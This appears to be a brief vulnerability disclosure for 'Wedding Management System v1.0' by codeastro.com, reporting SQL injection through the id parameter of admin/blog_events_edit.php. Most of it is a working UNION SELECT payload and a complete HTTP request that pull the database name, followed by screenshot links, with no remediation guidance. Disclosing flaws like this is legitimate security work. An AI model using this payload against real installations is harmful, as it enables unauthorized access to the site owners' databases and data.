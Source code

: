 # Wedding Management System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: \admin\blog_events_edit.php

Vulnerability location: /Wedding-Management/admin/blog_events_edit.php?id=, id

[+] Payload: id=-31%20union%20select%201,database(),3,4,5,6,7,8,9,10--+

dbname = dbwedding

```sql
GET /Wedding-Management/admin/blog_events_edit.php?id=-31%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/167982228-bffd73cf-81af-403a-b7df-c9bd9d204ecb.png)


![image](https://user-images.githubusercontent.com/54017627/167982164-007f7cd0-b464-4870-b5f7-182b791e92bc.png)

